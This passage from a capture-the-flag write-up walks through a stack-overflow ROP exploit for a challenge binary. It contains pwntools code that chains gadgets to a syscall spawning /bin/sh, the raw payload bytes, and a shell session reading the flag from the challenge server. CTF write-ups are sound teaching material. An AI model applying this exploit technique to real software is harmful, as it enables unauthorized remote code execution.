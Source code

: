 ```python
    payload += p64(0x4018cf) # pop rdx ; ret
    payload += p64(0)

    payload += p64(0x4012d3) # syscall

    print(payload)

    # send payload!
    p.sendlineafter(b"scoreboard: ", payload)

    # ooo fancy prompt
    p.interactive(prompt=term.text.bold_red("pwn>") + " ")
```

Our payload consists of 40 `A`s to get a stack overflow, then a ROP chain in basically the same (arbitrary) order that I described above (rax -> rdi -> rsi -> rdx).
Oh, I also forgot to mention that we need to execute a `syscall` instruction for obvious reasons; ROPgadget was able to find one with ease :)

Let's try running this against the server!

```shell
$ python pwnspect.py
[+] Opening connection to chal.ctf-league.osusec.org on port 1311: Done
# this is our payload ⬇️
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw$E\x00\x00\x00\x00\x00;\x00\x00\x00\x00\x00\x00\x00\xc2\x19@\x00\x00\x00\x00\x00)2L\x00\x00\x00\x00\x00\xd2K@\x00\x00\x00\x00\x00/bin/sh\x00[\xb9C\x00\x00\x00\x00\x00.\xf5@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xcf\x18@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xd3\x12@\x00\x00\x00\x00\x00'
[*] Switching to interactive mode
Congrats AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw$E
Here is your bop as promised: https://www.youtube.com/watch?v=EcF2LOaLgA0
Goodbye!
# this is where our shell kicks in
pwn> ls
flag
inspect-your-gadgets
pwn> cat flag
osu{90_90_9AD937_AR817rarY_C0d3_3x3Cu710N}
```

And there's our flag! (and [our bop](https://www.youtube.com/watch?v=EcF2LOaLgA0) :))

This challenge was lots of fun and I definitely learned a lot (even if it came at the cost of my sanity haha).
I probably would have enjoyed it more if I actually watched Inspector Gadget as a kid but it's not like I can change that :)